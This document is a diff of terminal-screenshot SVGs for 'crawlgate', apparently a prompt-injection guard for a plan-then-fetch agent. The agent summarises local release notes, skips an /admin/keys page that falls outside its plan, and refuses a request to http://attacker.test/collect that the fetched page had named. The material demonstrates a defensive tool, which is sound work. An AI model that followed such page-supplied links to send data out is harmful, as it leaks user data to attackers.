-       <text class="terminal-3453223315-r1" x="1122.4" y="93.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-3)">
- </text>
-       <text class="terminal-3453223315-r2" x="0" y="117.6" textLength="109.8" clip-path="url(#terminal-3453223315-line-4)">crawlgate</text>
-       <text class="terminal-3453223315-r3" x="109.8" y="117.6" textLength="85.4" clip-path="url(#terminal-3453223315-line-4)">  0.1.0</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="117.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-4)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="142" textLength="732" clip-path="url(#terminal-3453223315-line-5)">────────────────────────────────────────────────────────────</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="142" textLength="12.2" clip-path="url(#terminal-3453223315-line-5)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="166.4" textLength="183" clip-path="url(#terminal-3453223315-line-6)">task           </text>
-       <text class="terminal-3453223315-r1" x="183" y="166.4" textLength="939.4" clip-path="url(#terminal-3453223315-line-6)">Summarize the release notes at http://127.0.0.1:51126/docs/notes and write it</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="166.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-6)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="190.8" textLength="231.8" clip-path="url(#terminal-3453223315-line-7)">to notes/summary.md</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="190.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-7)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="215.2" textLength="183" clip-path="url(#terminal-3453223315-line-8)">planner input  </text>
-       <text class="terminal-3453223315-r4" x="183" y="215.2" textLength="256.2" clip-path="url(#terminal-3453223315-line-8)">your instruction only</text>
-       <text class="terminal-3453223315-r3" x="439.2" y="215.2" textLength="61" clip-path="url(#terminal-3453223315-line-8)">  -  </text>
-       <text class="terminal-3453223315-r1" x="500.2" y="215.2" textLength="85.4" clip-path="url(#terminal-3453223315-line-8)">0 bytes</text>
-       <text class="terminal-3453223315-r4" x="585.6" y="215.2" textLength="195.2" clip-path="url(#terminal-3453223315-line-8)"> of page content</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="215.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-8)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="239.6" textLength="732" clip-path="url(#terminal-3453223315-line-9)">────────────────────────────────────────────────────────────</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="239.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-9)">
- </text>
-       <text class="terminal-3453223315-r2" x="0" y="264" textLength="48.8" clip-path="url(#terminal-3453223315-line-10)">PLAN</text>
-       <text class="terminal-3453223315-r4" x="48.8" y="264" textLength="463.6" clip-path="url(#terminal-3453223315-line-10)">  committed before anything is fetched</text>
-       <text class="terminal-3453223315-r3" x="512.4" y="264" textLength="122" clip-path="url(#terminal-3453223315-line-10)">   4 steps</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="264" textLength="12.2" clip-path="url(#terminal-3453223315-line-10)">
- </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="288.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-11)">
- </text>
-       <text class="terminal-3453223315-r3" x="12.2" y="312.8" textLength="24.4" clip-path="url(#terminal-3453223315-line-12)">1 </text>
-       <text class="terminal-3453223315-r1" x="36.6" y="312.8" textLength="146.4" clip-path="url(#terminal-3453223315-line-12)">fetch       </text>
-       <text class="terminal-3453223315-r1" x="183" y="312.8" textLength="402.6" clip-path="url(#terminal-3453223315-line-12)">http://127.0.0.1:51126/docs/notes</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="312.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-12)">
- </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="337.2" textLength="97.6" clip-path="url(#terminal-3453223315-line-13)">hosts   </text>
-       <text class="terminal-3453223315-r1" x="170.8" y="337.2" textLength="109.8" clip-path="url(#terminal-3453223315-line-13)">127.0.0.1</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="337.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-13)">
- </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="361.6" textLength="97.6" clip-path="url(#terminal-3453223315-line-14)">prefix  </text>
-       <text class="terminal-3453223315-r1" x="170.8" y="361.6" textLength="61" clip-path="url(#terminal-3453223315-line-14)">/docs</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="361.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-14)">
- </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="386" textLength="97.6" clip-path="url(#terminal-3453223315-line-15)">depth   </text>
-       <text class="terminal-3453223315-r1" x="170.8" y="386" textLength="195.2" clip-path="url(#terminal-3453223315-line-15)">1    pages &lt;= 10</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="386" textLength="12.2" clip-path="url(#terminal-3453223315-line-15)">
- </text>
-       <text class="terminal-3453223315-r3" x="73.2" y="410.4" textLength="97.6" clip-path="url(#terminal-3453223315-line-16)">-&gt; pages</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="410.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-16)">
- </text>
-       <text class="terminal-3453223315-r3" x="12.2" y="434.8" textLength="24.4" clip-path="url(#terminal-3453223315-line-17)">2 </text>
-       <text class="terminal-3453223315-r1" x="36.6" y="434.8" textLength="146.4" clip-path="url(#terminal-3453223315-line-17)">extract     </text>
-       <text class="terminal-3453223315-r3" x="183" y="434.8" textLength="85.4" clip-path="url(#terminal-3453223315-line-17)">{pages}</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="434.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-17)">
- </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="459.2" textLength="97.6" clip-path="url(#terminal-3453223315-line-18)">schema  </text>
-       <text class="terminal-3453223315-r1" x="170.8" y="459.2" textLength="73.2" clip-path="url(#terminal-3453223315-line-18)">string</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="459.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-18)">
- </text>
-       <text class="terminal-3453223315-r3" x="73.2" y="483.6" textLength="122" clip-path="url(#terminal-3453223315-line-19)">-&gt; summary</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="483.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-19)">
- </text>
-       <text class="terminal-3453223315-r3" x="12.2" y="508" textLength="24.4" clip-path="url(#terminal-3453223315-line-20)">3 </text>
-       <text class="terminal-3453223315-r1" x="36.6" y="508" textLength="146.4" clip-path="url(#terminal-3453223315-line-20)">write_file  </text>
-       <text class="terminal-3453223315-r1" x="183" y="508" textLength="195.2" clip-path="url(#terminal-3453223315-line-20)">notes/summary.md</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="508" textLength="12.2" clip-path="url(#terminal-3453223315-line-20)">
- </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="532.4" textLength="97.6" clip-path="url(#terminal-3453223315-line-21)">content </text>
-       <text class="terminal-3453223315-r3" x="170.8" y="532.4" textLength="109.8" clip-path="url(#terminal-3453223315-line-21)">{summary}</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="532.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-21)">
- </text>
-       <text class="terminal-3453223315-r3" x="12.2" y="556.8" textLength="24.4" clip-path="url(#terminal-3453223315-line-22)">4 </text>
-       <text class="terminal-3453223315-r1" x="36.6" y="556.8" textLength="146.4" clip-path="url(#terminal-3453223315-line-22)">report      </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="556.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-22)">
- </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="581.2" textLength="97.6" clip-path="url(#terminal-3453223315-line-23)">summary </text>
-       <text class="terminal-3453223315-r3" x="170.8" y="581.2" textLength="109.8" clip-path="url(#terminal-3453223315-line-23)">{summary}</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="581.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-23)">
- </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="605.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-24)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="630" textLength="439.2" clip-path="url(#terminal-3453223315-line-25)">every destination above is a literal</text>
-       <text class="terminal-3453223315-r5" x="439.2" y="630" textLength="61" clip-path="url(#terminal-3453223315-line-25)">  -  </text>
-       <text class="terminal-3453223315-r4" x="500.2" y="630" textLength="475.8" clip-path="url(#terminal-3453223315-line-25)">every {slot} sits in a content position</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="630" textLength="12.2" clip-path="url(#terminal-3453223315-line-25)">
- </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="654.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-26)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="678.8" textLength="24.4" clip-path="url(#terminal-3453223315-line-27)">▸ </text>
-       <text class="terminal-3453223315-r3" x="24.4" y="678.8" textLength="36.6" clip-path="url(#terminal-3453223315-line-27)">1  </text>
-       <text class="terminal-3453223315-r1" x="61" y="678.8" textLength="134.2" clip-path="url(#terminal-3453223315-line-27)">fetch      </text>
-       <text class="terminal-3453223315-r1" x="195.2" y="678.8" textLength="402.6" clip-path="url(#terminal-3453223315-line-27)">http://127.0.0.1:51126/docs/notes</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="678.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-27)">
- </text>
-       <text class="terminal-3453223315-r4" x="48.8" y="703.2" textLength="24.4" clip-path="url(#terminal-3453223315-line-28)">▸ </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="703.2" textLength="61" clip-path="url(#terminal-3453223315-line-28)">200  </text>
-       <text class="terminal-3453223315-r1" x="134.2" y="703.2" textLength="402.6" clip-path="url(#terminal-3453223315-line-28)">http://127.0.0.1:51126/docs/notes</text>
-       <text class="terminal-3453223315-r3" x="536.8" y="703.2" textLength="85.4" clip-path="url(#terminal-3453223315-line-28)">  757 B</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="703.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-28)">
- </text>
-       <text class="terminal-3453223315-r4" x="48.8" y="727.6" textLength="24.4" clip-path="url(#terminal-3453223315-line-29)">▸ </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="727.6" textLength="61" clip-path="url(#terminal-3453223315-line-29)">200  </text>
-       <text class="terminal-3453223315-r1" x="134.2" y="727.6" textLength="427" clip-path="url(#terminal-3453223315-line-29)">http://127.0.0.1:51126/docs/upgrade</text>
-       <text class="terminal-3453223315-r3" x="561.2" y="727.6" textLength="85.4" clip-path="url(#terminal-3453223315-line-29)">  205 B</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="727.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-29)">
- </text>
-       <text class="terminal-3453223315-r3" x="48.8" y="752" textLength="24.4" clip-path="url(#terminal-3453223315-line-30)">· </text>
-       <text class="terminal-3453223315-r4" x="73.2" y="752" textLength="61" clip-path="url(#terminal-3453223315-line-30)">skip </text>
-       <text class="terminal-3453223315-r4" x="134.2" y="752" textLength="402.6" clip-path="url(#terminal-3453223315-line-30)">http://127.0.0.1:51126/admin/keys</text>
-       <text class="terminal-3453223315-r3" x="536.8" y="752" textLength="585.6" clip-path="url(#terminal-3453223315-line-30)">  path '/admin/keys' outside plan prefix '/docs'</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="752" textLength="12.2" clip-path="url(#terminal-3453223315-line-30)">
- </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="776.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-31)">
- </text>
-       <text class="terminal-3453223315-r6" x="24.4" y="800.8" textLength="122" clip-path="url(#terminal-3453223315-line-32)">┌────────┐</text>
-       <text class="terminal-3453223315-r6" x="183" y="800.8" textLength="109.8" clip-path="url(#terminal-3453223315-line-32)">⨯ REFUSED</text>
-       <text class="terminal-3453223315-r6" x="292.8" y="800.8" textLength="146.4" clip-path="url(#terminal-3453223315-line-32)">   netpolicy</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="800.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-32)">
- </text>
-       <text class="terminal-3453223315-r6" x="24.4" y="825.2" textLength="122" clip-path="url(#terminal-3453223315-line-33)">│ \\  // │</text>
-       <text class="terminal-3453223315-r1" x="183" y="825.2" textLength="427" clip-path="url(#terminal-3453223315-line-33)">http://attacker.test/collect?d=link</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="825.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-33)">
- </text>
-       <text class="terminal-3453223315-r6" x="24.4" y="849.6" textLength="122" clip-path="url(#terminal-3453223315-line-34)">│--(OO)--│</text>
-       <text class="terminal-3453223315-r4" x="183" y="849.6" textLength="463.6" clip-path="url(#terminal-3453223315-line-34)">host 'attacker.test' not in plan scope</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="849.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-34)">
- </text>
-       <text class="terminal-3453223315-r6" x="24.4" y="874" textLength="122" clip-path="url(#terminal-3453223315-line-35)">│ //  \\ │</text>
-       <text class="terminal-3453223315-r4" x="183" y="874" textLength="463.6" clip-path="url(#terminal-3453223315-line-35)">the page named this - the plan did not</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="874" textLength="12.2" clip-path="url(#terminal-3453223315-line-35)">
- </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="898.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-36)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="922.8" textLength="24.4" clip-path="url(#terminal-3453223315-line-37)">▸ </text>
-       <text class="terminal-3453223315-r3" x="24.4" y="922.8" textLength="36.6" clip-path="url(#terminal-3453223315-line-37)">2  </text>
-       <text class="terminal-3453223315-r1" x="61" y="922.8" textLength="134.2" clip-path="url(#terminal-3453223315-line-37)">extract    </text>
-       <text class="terminal-3453223315-r4" x="195.2" y="922.8" textLength="158.6" clip-path="url(#terminal-3453223315-line-37)">schema string</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="922.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-37)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="947.2" textLength="24.4" clip-path="url(#terminal-3453223315-line-38)">▸ </text>
-       <text class="terminal-3453223315-r3" x="24.4" y="947.2" textLength="36.6" clip-path="url(#terminal-3453223315-line-38)">3  </text>
-       <text class="terminal-3453223315-r1" x="61" y="947.2" textLength="134.2" clip-path="url(#terminal-3453223315-line-38)">write_file </text>
-       <text class="terminal-3453223315-r1" x="195.2" y="947.2" textLength="195.2" clip-path="url(#terminal-3453223315-line-38)">notes/summary.md</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="947.2" textLength="12.2" clip-path="url(#terminal-3453223315-line-38)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="971.6" textLength="24.4" clip-path="url(#terminal-3453223315-line-39)">▸ </text>
-       <text class="terminal-3453223315-r3" x="24.4" y="971.6" textLength="36.6" clip-path="url(#terminal-3453223315-line-39)">4  </text>
-       <text class="terminal-3453223315-r1" x="61" y="971.6" textLength="134.2" clip-path="url(#terminal-3453223315-line-39)">report     </text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="971.6" textLength="12.2" clip-path="url(#terminal-3453223315-line-39)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="996" textLength="732" clip-path="url(#terminal-3453223315-line-40)">────────────────────────────────────────────────────────────</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="996" textLength="12.2" clip-path="url(#terminal-3453223315-line-40)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="1020.4" textLength="122" clip-path="url(#terminal-3453223315-line-41)">3 executed</text>
-       <text class="terminal-3453223315-r6" x="158.6" y="1020.4" textLength="109.8" clip-path="url(#terminal-3453223315-line-41)">1 refused</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="1020.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-41)">
- </text>
-       <text class="terminal-3453223315-r4" x="0" y="1044.8" textLength="85.4" clip-path="url(#terminal-3453223315-line-42)">trace  </text>
-       <text class="terminal-3453223315-r3" x="85.4" y="1044.8" textLength="732" clip-path="url(#terminal-3453223315-line-42)">.crawlgate/runs/05d3a800bf9f40248974d9156fca672a/trace.jsonl</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="1044.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-42)">
+   <g transform="translate(9, 41)" clip-path="url(#terminal-73425060-clip-terminal)">
+     <g class="terminal-73425060-matrix">
+       <text class="terminal-73425060-r1" x="1122.4" y="20" textLength="12.2" clip-path="url(#terminal-73425060-line-0)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="44.4" textLength="85.4" clip-path="url(#terminal-73425060-line-1)"> \\  //</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="44.4" textLength="12.2" clip-path="url(#terminal-73425060-line-1)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="68.8" textLength="97.6" clip-path="url(#terminal-73425060-line-2)">--(oo)--</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="68.8" textLength="12.2" clip-path="url(#terminal-73425060-line-2)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="93.2" textLength="85.4" clip-path="url(#terminal-73425060-line-3)"> //  \\</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="93.2" textLength="12.2" clip-path="url(#terminal-73425060-line-3)">
+ </text>
+       <text class="terminal-73425060-r2" x="0" y="117.6" textLength="109.8" clip-path="url(#terminal-73425060-line-4)">crawlgate</text>
+       <text class="terminal-73425060-r3" x="109.8" y="117.6" textLength="85.4" clip-path="url(#terminal-73425060-line-4)">  0.1.0</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="117.6" textLength="12.2" clip-path="url(#terminal-73425060-line-4)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="142" textLength="732" clip-path="url(#terminal-73425060-line-5)">────────────────────────────────────────────────────────────</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="142" textLength="12.2" clip-path="url(#terminal-73425060-line-5)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="166.4" textLength="183" clip-path="url(#terminal-73425060-line-6)">task           </text>
+       <text class="terminal-73425060-r1" x="183" y="166.4" textLength="939.4" clip-path="url(#terminal-73425060-line-6)">Summarize the release notes at http://127.0.0.1:58678/docs/notes and write it</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="166.4" textLength="12.2" clip-path="url(#terminal-73425060-line-6)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="190.8" textLength="231.8" clip-path="url(#terminal-73425060-line-7)">to notes/summary.md</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="190.8" textLength="12.2" clip-path="url(#terminal-73425060-line-7)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="215.2" textLength="183" clip-path="url(#terminal-73425060-line-8)">models         </text>
+       <text class="terminal-73425060-r1" x="183" y="215.2" textLength="146.4" clip-path="url(#terminal-73425060-line-8)">planner none</text>
+       <text class="terminal-73425060-r3" x="329.4" y="215.2" textLength="61" clip-path="url(#terminal-73425060-line-8)">  -  </text>
+       <text class="terminal-73425060-r1" x="390.4" y="215.2" textLength="170.8" clip-path="url(#terminal-73425060-line-8)">extractor none</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="215.2" textLength="12.2" clip-path="url(#terminal-73425060-line-8)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="239.6" textLength="183" clip-path="url(#terminal-73425060-line-9)">planner input  </text>
+       <text class="terminal-73425060-r4" x="183" y="239.6" textLength="256.2" clip-path="url(#terminal-73425060-line-9)">your instruction only</text>
+       <text class="terminal-73425060-r3" x="439.2" y="239.6" textLength="61" clip-path="url(#terminal-73425060-line-9)">  -  </text>
+       <text class="terminal-73425060-r1" x="500.2" y="239.6" textLength="85.4" clip-path="url(#terminal-73425060-line-9)">0 bytes</text>
+       <text class="terminal-73425060-r4" x="585.6" y="239.6" textLength="195.2" clip-path="url(#terminal-73425060-line-9)"> of page content</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="239.6" textLength="12.2" clip-path="url(#terminal-73425060-line-9)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="264" textLength="732" clip-path="url(#terminal-73425060-line-10)">────────────────────────────────────────────────────────────</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="264" textLength="12.2" clip-path="url(#terminal-73425060-line-10)">
+ </text>
+       <text class="terminal-73425060-r2" x="0" y="288.4" textLength="48.8" clip-path="url(#terminal-73425060-line-11)">PLAN</text>
+       <text class="terminal-73425060-r4" x="48.8" y="288.4" textLength="463.6" clip-path="url(#terminal-73425060-line-11)">  committed before anything is fetched</text>
+       <text class="terminal-73425060-r3" x="512.4" y="288.4" textLength="122" clip-path="url(#terminal-73425060-line-11)">   4 steps</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="288.4" textLength="12.2" clip-path="url(#terminal-73425060-line-11)">
+ </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="312.8" textLength="12.2" clip-path="url(#terminal-73425060-line-12)">
+ </text>
+       <text class="terminal-73425060-r3" x="12.2" y="337.2" textLength="24.4" clip-path="url(#terminal-73425060-line-13)">1 </text>
+       <text class="terminal-73425060-r1" x="36.6" y="337.2" textLength="146.4" clip-path="url(#terminal-73425060-line-13)">fetch       </text>
+       <text class="terminal-73425060-r1" x="183" y="337.2" textLength="402.6" clip-path="url(#terminal-73425060-line-13)">http://127.0.0.1:58678/docs/notes</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="337.2" textLength="12.2" clip-path="url(#terminal-73425060-line-13)">
+ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="361.6" textLength="97.6" clip-path="url(#terminal-73425060-line-14)">hosts   </text>
+       <text class="terminal-73425060-r1" x="170.8" y="361.6" textLength="109.8" clip-path="url(#terminal-73425060-line-14)">127.0.0.1</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="361.6" textLength="12.2" clip-path="url(#terminal-73425060-line-14)">
+ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="386" textLength="97.6" clip-path="url(#terminal-73425060-line-15)">prefix  </text>
+       <text class="terminal-73425060-r1" x="170.8" y="386" textLength="61" clip-path="url(#terminal-73425060-line-15)">/docs</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="386" textLength="12.2" clip-path="url(#terminal-73425060-line-15)">
+ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="410.4" textLength="97.6" clip-path="url(#terminal-73425060-line-16)">depth   </text>
+       <text class="terminal-73425060-r1" x="170.8" y="410.4" textLength="195.2" clip-path="url(#terminal-73425060-line-16)">1    pages &lt;= 10</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="410.4" textLength="12.2" clip-path="url(#terminal-73425060-line-16)">
+ </text>
+       <text class="terminal-73425060-r3" x="73.2" y="434.8" textLength="97.6" clip-path="url(#terminal-73425060-line-17)">-&gt; pages</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="434.8" textLength="12.2" clip-path="url(#terminal-73425060-line-17)">
+ </text>
+       <text class="terminal-73425060-r3" x="12.2" y="459.2" textLength="24.4" clip-path="url(#terminal-73425060-line-18)">2 </text>
+       <text class="terminal-73425060-r1" x="36.6" y="459.2" textLength="146.4" clip-path="url(#terminal-73425060-line-18)">extract     </text>
+       <text class="terminal-73425060-r3" x="183" y="459.2" textLength="85.4" clip-path="url(#terminal-73425060-line-18)">{pages}</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="459.2" textLength="12.2" clip-path="url(#terminal-73425060-line-18)">
+ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="483.6" textLength="97.6" clip-path="url(#terminal-73425060-line-19)">schema  </text>
+       <text class="terminal-73425060-r1" x="170.8" y="483.6" textLength="73.2" clip-path="url(#terminal-73425060-line-19)">string</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="483.6" textLength="12.2" clip-path="url(#terminal-73425060-line-19)">
+ </text>
+       <text class="terminal-73425060-r3" x="73.2" y="508" textLength="122" clip-path="url(#terminal-73425060-line-20)">-&gt; summary</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="508" textLength="12.2" clip-path="url(#terminal-73425060-line-20)">
+ </text>
+       <text class="terminal-73425060-r3" x="12.2" y="532.4" textLength="24.4" clip-path="url(#terminal-73425060-line-21)">3 </text>
+       <text class="terminal-73425060-r1" x="36.6" y="532.4" textLength="146.4" clip-path="url(#terminal-73425060-line-21)">write_file  </text>
+       <text class="terminal-73425060-r1" x="183" y="532.4" textLength="195.2" clip-path="url(#terminal-73425060-line-21)">notes/summary.md</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="532.4" textLength="12.2" clip-path="url(#terminal-73425060-line-21)">
+ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="556.8" textLength="97.6" clip-path="url(#terminal-73425060-line-22)">content </text>
+       <text class="terminal-73425060-r3" x="170.8" y="556.8" textLength="109.8" clip-path="url(#terminal-73425060-line-22)">{summary}</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="556.8" textLength="12.2" clip-path="url(#terminal-73425060-line-22)">
+ </text>
+       <text class="terminal-73425060-r3" x="12.2" y="581.2" textLength="24.4" clip-path="url(#terminal-73425060-line-23)">4 </text>
+       <text class="terminal-73425060-r1" x="36.6" y="581.2" textLength="146.4" clip-path="url(#terminal-73425060-line-23)">report      </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="581.2" textLength="12.2" clip-path="url(#terminal-73425060-line-23)">
+ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="605.6" textLength="97.6" clip-path="url(#terminal-73425060-line-24)">summary </text>
+       <text class="terminal-73425060-r3" x="170.8" y="605.6" textLength="109.8" clip-path="url(#terminal-73425060-line-24)">{summary}</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="605.6" textLength="12.2" clip-path="url(#terminal-73425060-line-24)">
+ </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="630" textLength="12.2" clip-path="url(#terminal-73425060-line-25)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="654.4" textLength="439.2" clip-path="url(#terminal-73425060-line-26)">every destination above is a literal</text>
+       <text class="terminal-73425060-r5" x="439.2" y="654.4" textLength="61" clip-path="url(#terminal-73425060-line-26)">  -  </text>
+       <text class="terminal-73425060-r4" x="500.2" y="654.4" textLength="475.8" clip-path="url(#terminal-73425060-line-26)">every {slot} sits in a content position</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="654.4" textLength="12.2" clip-path="url(#terminal-73425060-line-26)">
+ </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="678.8" textLength="12.2" clip-path="url(#terminal-73425060-line-27)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="703.2" textLength="24.4" clip-path="url(#terminal-73425060-line-28)">▸ </text>
+       <text class="terminal-73425060-r3" x="24.4" y="703.2" textLength="36.6" clip-path="url(#terminal-73425060-line-28)">1  </text>
+       <text class="terminal-73425060-r1" x="61" y="703.2" textLength="134.2" clip-path="url(#terminal-73425060-line-28)">fetch      </text>
+       <text class="terminal-73425060-r1" x="195.2" y="703.2" textLength="402.6" clip-path="url(#terminal-73425060-line-28)">http://127.0.0.1:58678/docs/notes</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="703.2" textLength="12.2" clip-path="url(#terminal-73425060-line-28)">
+ </text>
+       <text class="terminal-73425060-r4" x="48.8" y="727.6" textLength="24.4" clip-path="url(#terminal-73425060-line-29)">▸ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="727.6" textLength="61" clip-path="url(#terminal-73425060-line-29)">200  </text>
+       <text class="terminal-73425060-r1" x="134.2" y="727.6" textLength="402.6" clip-path="url(#terminal-73425060-line-29)">http://127.0.0.1:58678/docs/notes</text>
+       <text class="terminal-73425060-r3" x="536.8" y="727.6" textLength="85.4" clip-path="url(#terminal-73425060-line-29)">  757 B</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="727.6" textLength="12.2" clip-path="url(#terminal-73425060-line-29)">
+ </text>
+       <text class="terminal-73425060-r4" x="48.8" y="752" textLength="24.4" clip-path="url(#terminal-73425060-line-30)">▸ </text>
+       <text class="terminal-73425060-r4" x="73.2" y="752" textLength="61" clip-path="url(#terminal-73425060-line-30)">200  </text>
+       <text class="terminal-73425060-r1" x="134.2" y="752" textLength="427" clip-path="url(#terminal-73425060-line-30)">http://127.0.0.1:58678/docs/upgrade</text>
+       <text class="terminal-73425060-r3" x="561.2" y="752" textLength="85.4" clip-path="url(#terminal-73425060-line-30)">  205 B</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="752" textLength="12.2" clip-path="url(#terminal-73425060-line-30)">
+ </text>
+       <text class="terminal-73425060-r3" x="48.8" y="776.4" textLength="24.4" clip-path="url(#terminal-73425060-line-31)">· </text>
+       <text class="terminal-73425060-r4" x="73.2" y="776.4" textLength="61" clip-path="url(#terminal-73425060-line-31)">skip </text>
+       <text class="terminal-73425060-r4" x="134.2" y="776.4" textLength="402.6" clip-path="url(#terminal-73425060-line-31)">http://127.0.0.1:58678/admin/keys</text>
+       <text class="terminal-73425060-r3" x="536.8" y="776.4" textLength="585.6" clip-path="url(#terminal-73425060-line-31)">  path '/admin/keys' outside plan prefix '/docs'</text>
